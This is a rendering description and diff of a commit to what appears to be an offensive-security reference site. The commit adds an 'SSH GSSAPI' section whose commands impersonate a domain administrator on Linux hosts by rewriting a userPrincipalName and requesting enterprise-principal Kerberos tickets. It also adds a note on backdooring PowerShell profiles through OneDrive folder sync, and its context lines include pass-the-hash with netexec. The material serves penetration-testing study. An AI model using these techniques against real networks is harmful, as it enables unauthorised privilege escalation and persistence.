

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/ad-adds-linux.md, in a window 1280 px wide and 1400 px high, scrolled down 3751 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4381 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
BloodHound OpenGraph + SSH GSSAPI

````diff
--- a/docs/active-directory/ad-adds-linux.md
+++ b/docs/active-directory/ad-adds-linux.md
@@ -88,7 +88,7 @@ $ python3 keytabextract.py krb5.keytab
         NTLM HASH : 31d6cfe0d16ae931b73c59d7e0c089c0 # Lucky
 ```
 
-On macOS you can use `bifrost`.
+On macOS you can use [its-a-feature/bifrost](https://github.com/its-a-feature/bifrost).
 
 ```powershell
 ./bifrost -action dump -source keytab -path test
@@ -98,7 +98,7 @@ Connect to the machine using the account and the hash with CME.
 
 ```powershell
 $ netexec 10.XXX.XXX.XXX -u 'COMPUTER$' -H "31d6cfe0d16ae931b73c59d7e0c089c0" -d "DOMAIN"
-         10.XXX.XXX.XXX:445 HOSTNAME-01   [+] DOMAIN\COMPUTER$ 31d6cfe0d16ae931b73c59d7e0c089c0
+10.XXX.XXX.XXX:445 HOSTNAME-01   [+] DOMAIN\COMPUTER$ 31d6cfe0d16ae931b73c59d7e0c089c0
 ```
 
 ## Extract accounts from /etc/sssd/sssd.conf
@@ -169,8 +169,63 @@ Back to GDB:
 call system("keyctl print 689325199 > /tmp/output")
 ```
 
+## SSH GSSAPI
+
+GSSAPI (Generic Security Services Application Program Interface) is an API that provides security services (such as authentication) and acts as an abstraction layer for different security mechanisms, such as Kerberos.
+
+**Requirements**:
+
+* Write permission on **Public-Information** field
+* SSH server supporting GSSAPI authentication: [CCob/gssapi-abuse](https://github.com/CCob/gssapi-abuse)
+
+    ```ps1
+    ./gssapi-abuse.py -d grandline.local enum -u username -p 'P@ssw0rd'
+    ```
+
+**Methodology**:
+
+Since MIT Kerberos doesn't verify the PAC, controlling a domain account and altering its UPN allows us to masquerade as a different user.
+
+* Modify the `userPrincipalName` inside the **Public-Information** field.
+
+    ```ps1
+    bloodyAD --host "dc1.domain.local" -d "domain.local" -u 'username' -p 'P@ssw0rd' set object username userPrincipalName -v 'administrator'
+    ```
+
+* Request a ticket with the `NT_ENTERPRISE` principal because it searches for `userPrincipalName` before `samAccountName` in the ticket.
+
+    ```ps1
+    getTGT.py -dc-ip "10.10.10.10" "domain.local"/"username":'P@ssw0rd' -principalType NT_ENTERPRISE
+    .\Rubeus.exe asktgt /user:Administrator /password:Password /principalType:enterprise
+    ```
+
+* Edit `/etc/krb5.conf` to authenticate to the Linux host via GSSAPI.
+
+    ```yaml
+    [libdefaults]
+        default_realm = DOMAIN.LOCAL
+
+    [realms]
+        DOMAIN.LOCAL = {
+                kdc = dc1.domain.local
+        }
+
+    [domain_realm]
+        .domain.local = DOMAIN.LOCAL
+        domain.local = DOMAIN.LOCAL
+    ```
+
+* SSH connection
+
+    ```ps1
+    export KRB5CCNAME=username.ccache
+    ssh -vv -K username@domain.local@linux.domain.local
+    ```
+
 ## References
 
+* [20.4. Caching Kerberos Passwords - Red Hat Customer Portal](https://access.redhat.com/documentation/fr-fr/red_hat_enterprise_linux/6/html/identity_management_guide/kerberos-pwd-cache)
+* [A broken marriage. Abusing mixed vendor Kerberos stacks - Ceri Coburn - August 25, 2023](https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/?ref=rayanle.cat)
+* [All you need to know about Keytab files - Pierre Audonnet [MSFT] - January 3, 2018](https://blogs.technet.microsoft.com/pie/2018/01/03/all-you-need-to-know-about-keytab-files/)
+* [Hack'in 2025 - One Directory - rayanlecat - June 25, 2025](https://www.rayanle.cat/hackin-2025-one-directory/)
 * [Kerberos Tickets on Linux Red Teams - April 01, 2020 | by Trevor Haskell](https://www.fireeye.com/blog/threat-research/2020/04/kerberos-tickets-on-linux-red-teams.html)
-* [All you need to know about Keytab files - Pierre Audonnet [MSFT] - January 3, 2018](https://blogs.technet.microsoft.com/pie/2018/01/03/all-you-need-to-know-about-keytab-files/)
-* [20.4. Caching Kerberos Passwords - Red Hat Customer Portal](https://access.redhat.com/documentation/fr-fr/red_hat_enterprise_linux/6/html/identity_management_guide/kerberos-pwd-cache)
--- a/docs/cloud/azure/azure-persistence.md
+++ b/docs/cloud/azure/azure-persistence.md
@@ -40,8 +40,31 @@
 Add-AzureADGroupMember -ObjectId <group_id> -RefObjectId <user_id> -Verbose
 ```
 
+## PowerShell Profile Backdoor Using KFM
+
+OneDrive for Business Known Folder Move (KFM) is a feature in Microsoft OneDrive for Business that enables users and organizations to automatically redirect the contents of key Windows user folders; Desktop, Documents, and Pictures from their local PC to OneDrive.
+
+A PowerShell profile is a script file that loads whenever you start a new PowerShell session (such as opening PowerShell or Windows Terminal). Users and administrators often customize their profiles to set aliases, environment variables, functions, or pre-load modules.
+
+**Requirements**:
+
+* `Files.ReadWrite.All` privilege
+
+**Methodology**:
+
+Known Folder Move moves the user's Documents (and/or Desktop, Pictures) folder to OneDrive for Business, typically syncing:
+
+```ps1
+C:\Users\<username>\Documents → C:\Users\<username>\OneDrive - <TenantName>\Documents
+```
+
+This means the PowerShell profile file (`Documents\PowerShell\Microsoft.PowerShell_profile.ps1`) will now be synced to OneDrive.
+
+Push a malicious PowerShell profile at `$HOME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1`.
+
 ## References
 
+* [High-Profile Cloud Privesc - Leonidas Tsaousis - July 15, 2025](https://labs.reversec.com/posts/2025/07/high-profile-cloud-privesc)
 * [Maintaining Azure Persistence via automation accounts - Karl Fosaaen - September 12, 2019](https://blog.netspi.com/maintaining-azure-persistence-via-automation-accounts/)
 * [Microsoft Graph - servicePrincipal: addPassword](https://learn.microsoft.com/en-us/graph/api/serviceprincipal-addpassword?view=graph-rest-1.0&tabs=powershell)
 * [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
````
Also changed, not shown: other parts of docs/active-directory/ad-adds-linux.md (+2 -2 lines), docs/active-directory/ad-adds-enumerate.md (+7 -1 lines), docs/active-directory/pwd-read-gmsa.md (+6 -0 lines).
